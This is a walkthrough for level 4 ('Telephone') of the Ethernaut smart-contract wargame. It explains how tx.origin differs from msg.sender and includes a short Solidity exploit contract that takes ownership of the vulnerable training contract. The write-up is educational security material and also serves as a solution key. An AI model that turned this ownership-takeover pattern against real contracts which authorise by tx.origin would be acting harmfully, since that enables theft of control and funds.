 ```yaml
---
description: >-
  In Ethernaut's Telephone, we learn the difference between tx.origin and
  msg.sender.
---
```


# 4 - Telephone

The goal of [this level](https://ethernaut.openzeppelin.com/level/0x0b6F6CE4BCfB70525A31454292017F640C10c768) is to become the contract's owner.

### Hints

<details>

<summary>Hint One</summary>

The solution to this level is to call the contract's `changeOwner` function with a transaction that has a different `tx.origin` and `msg.sender`. The `tx.origin` will always be the address of the originating wallet making the transaction, how is `msg.sender` different?

</details>

### Full Walkthrough

The solution to this level is straightforward. The contract's `changeOwner` function only requires that `tx.origin` is not equal to `msg.sender`.

```solidity
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
```

In Solidity, `msg.sender` always provides the _direct_ sender of the transaction. This could be, for example, a contract that the user called which in turn called another contract. The `tx.origin` is always the **origin** of the transaction, the externally owned address it was originally sent from.

We can solve this level by crafting an exploit contract that forwards our transaction. The exploit contract's address becomes the `msg.sender`, while our player wallet address remains the `tx.origin`.

### Scripted Solution

```solidity
pragma solidity ^0.8.0;

import "./Telephone.sol";

contract TelephoneExploit {
    Telephone public telephoneContract;

    /**
     * @dev Sets `telephoneContract` to instance at `telephoneContractAddress`.
     */
    constructor(address telephoneContractAddress) {
        telephoneContract = Telephone(telephoneContractAddress);
    }

    /**
     * @dev Sets `telephoneContract` owner to calling wallet address.
     */
    function changeTelephoneContractOwner() public {
        telephoneContract.changeOwner(tx.origin);
    }
}
```

### Key Takeaways

* The difference between **tx.origin** and **msg.sender** in Solidity contracts.
